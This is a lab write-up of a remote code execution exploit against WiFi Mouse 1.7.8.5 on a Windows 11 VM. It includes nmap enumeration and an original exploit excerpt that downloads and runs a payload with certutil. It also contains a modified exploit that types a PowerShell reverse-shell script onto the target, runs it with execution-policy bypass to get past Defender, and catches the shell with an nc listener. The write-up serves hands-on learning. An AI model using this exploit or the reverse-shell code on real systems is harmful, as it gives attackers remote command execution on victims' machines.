



# WiFi Mouse 1.7.8.5 - Remote Code Execution

Lab to learn more on the [WiFi Mouse 1.7.8.5 - Remote Code Execution](https://www.exploit-db.com/exploits/50972) exploit.

## Lab environment

**Target**

- VM running Microsoft Windows 11 Pro - 10.0.22000 N/A Build 22000
- Windows Defender - enabled
- WiFi Mouse 1.7.8.5 [download](https://www.exploit-db.com/apps/46b494c56615f48dd09065108d604762-MouseServer.exe)
- Windows Firewall - Allow traffic for `MouseServer.exe` - ref. TCP Port 1978
- IP 172.20.63.92

**Attacker**

- VM Kali Linux
- IP 172.20.61.115

## Enumeration
---

Nmap finds port `1978/tcp` open, but does not recognize the service using it.

```nginx
$ nmap -p 1978 -v -sC -sV -oA nmap/WiFiMouse 172.20.63.92
...
ORT     STATE SERVICE VERSION
1978/tcp open  unisql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    system windows 6.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1978-TCP:V=7.93%I=7%D=10/16%Time=634C8FA3%P=x86_64-pc-linux-gnu%r(N
SF:ULL,13,"system\x20windows\x206\.2\n")%r(GenericLines,13,"system\x20wind
SF:ows\x206\.2\n")%r(GetRequest,13,"system\x20windows\x206\.2\n")%r(HTTPOp
SF:tions,13,"system\x20windows\x206\.2\n")%r(RTSPRequest,13,"system\x20win
SF:dows\x206\.2\n")%r(RPCCheck,13,"system\x20windows\x206\.2\n")%r(DNSVers
SF:ionBindReqTCP,13,"system\x20windows\x206\.2\n")%r(DNSStatusRequestTCP,1
SF:3,"system\x20windows\x206\.2\n")%r(Help,13,"system\x20windows\x206\.2\n
SF:")%r(SSLSessionReq,13,"system\x20windows\x206\.2\n")%r(TerminalServerCo
SF:okie,13,"system\x20windows\x206\.2\n")%r(TLSSessionReq,13,"system\x20wi
SF:ndows\x206\.2\n")%r(Kerberos,13,"system\x20windows\x206\.2\n")%r(SMBPro
SF:gNeg,13,"system\x20windows\x206\.2\n")%r(X11Probe,13,"system\x20windows
SF:\x206\.2\n")%r(FourOhFourRequest,13,"system\x20windows\x206\.2\n")%r(LP
SF:DString,13,"system\x20windows\x206\.2\n")%r(LDAPSearchReq,13,"system\x2
SF:0windows\x206\.2\n")%r(LDAPBindReq,13,"system\x20windows\x206\.2\n")%r(
SF:SIPOptions,13,"system\x20windows\x206\.2\n")%r(LANDesk-RC,13,"system\x2
SF:0windows\x206\.2\n")%r(TerminalServer,13,"system\x20windows\x206\.2\n")
SF:%r(NCP,13,"system\x20windows\x206\.2\n")%r(NotesRPC,13,"system\x20windo
SF:ws\x206\.2\n")%r(JavaRMI,13,"system\x20windows\x206\.2\n")%r(WMSRequest
SF:,13,"system\x20windows\x206\.2\n")%r(oracle-tns,13,"system\x20windows\x
SF:206\.2\n")%r(ms-sql-s,13,"system\x20windows\x206\.2\n")%r(afp,13,"syste
SF:m\x20windows\x206\.2\n")%r(giop,13,"system\x20windows\x206\.2\n");
...
```
I took the opportunity to submit the fingerprint to nmap. I hope they can use it to update their database. This could facilitate the software identification.

Another approach to identify what could be running on this port is checking on the internet. If we search for `port 1978 exploit` we see a few links related to **mouse** exploit.



## Exploitation
---

[WiFi Mouse 1.7.8.5 - Remote Code Execution](https://www.exploit-db.com/exploits/50972) exploit.

Reading the exploit available on exploit-db, we can understand that the code will try to open `cmd.exe` on the target and write a command to download a payload, and then run it.

```python
def exploit():
	...
	openCMD()
	...
	SendString("certutil.exe -urlcache -f http://" + lhost + "/" + payload + " C:\\Windows\\Temp\\" + payload)
	SendReturn()
	...
	SendString("C:\\Windows\\Temp\\" + payload)
	SendReturn()
	...
```
However, on all my attempts to execute it (with different payloads), Windows Defender blocked the downloads.



Instead of trying to disable the antivirus, I decided to see what I could do without touching Defender.


After trying some options, an interesting idea came to my mind. I would try to use `echo`, directly on the target, to write a PowerShell script during the exploit execution. The new `.ps1` script would open a reverse shell with our attacker machine.

```python
def exploit():
	...
	openCMD()
	...
	SendString("echo $c = New-Object System.Net.Sockets.TCPClient('" + lhost + "','" + lport + "'); > C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $I = $c.GetStream();[byte[]]$U = 0..(2-shl15)^|%{0}; >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $U = ([text.encoding]::ASCII).GetBytes(\"Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n\"); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $I.Write($U,0,$U.Length); $U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '^>'); $I.Write($U,0,$U.Length); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $a = (iex $D 2^>^&1 ^| Out-String ); $r  = $a + (pwd).Path + '^> '; $m = ([text.encoding]::ASCII).GetBytes($r); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	SendString("echo $I.Write($m,0,$m.Length); $I.Flush()}; $c.Close(); >> C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	...
	SendString("powershell -nop -exec Bypass -File C:\\Windows\\Temp\\revshell.ps1")
	SendReturn()
	...
```

During playing with it, I found out that `echo` need special escape (^) to print a few special characters (& | < > ^).

```powershell
C:\>echo foo | bar
'bar' is not recognized as an internal or external command,
operable program or batch file.

C:\>echo foo ^| bar
foo | bar
```

I also noticed that, the Microsoft public documentation on the [echo](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/echo) command was missing the ampersand (&) character on the list of characters that needed especial escaping. I [open an issue](https://github.com/MicrosoftDocs/windowsserverdocs/issues/6814) on the documentation to suggest the change.


With the code ready, I openned a listner on Kali.

```nginx
$ nc -nlvp 4444 
listening on [any] 4444 ...
```

Then I executed the script

```nginx
$ python WiFiMouse_exploit.py 172.20.63.92 172.20.61.115 4444
[+] 3..2..1..
[+] *Wait while writing payload*
[+] Payload retrieved
[+] Invoking payload - Check Your Listener!
[-] Removing payload
[+] Done!
```
While the script was executing, we could see the following on the target screen (in my lab I have access to the target).



Back to Kali, we could see that we have a shell

```nginx
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.20.61.115] from (UNKNOWN) [172.20.63.92] 51596
Copyright (C) 2021 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\MouseServer.exe> 
```

## Final Considerations

Probably, there are many options to exploit this vulnerabiliy. This is only one of them :-) 

You can find the script I used [here](scripts/WiFiMouse_exploit.py)

## Links

- [Building a Vulnerable Box: RemoteMouse](https://warroom.rsmus.com/building-a-vulnerable-box-remotemouse/)
- [PowerShell Execution Argument Obfuscation (& How It Can Make Detection Easier!)](https://www.danielbohannon.com/blog-1/2017/3/12/powershell-execution-argument-obfuscation-how-it-can-make-detection-easier)
- [Analysis of a Threat: PowerShell Malicious Activity](https://www.blumira.com/analysis-of-a-threat-powershell-malicious-activity/)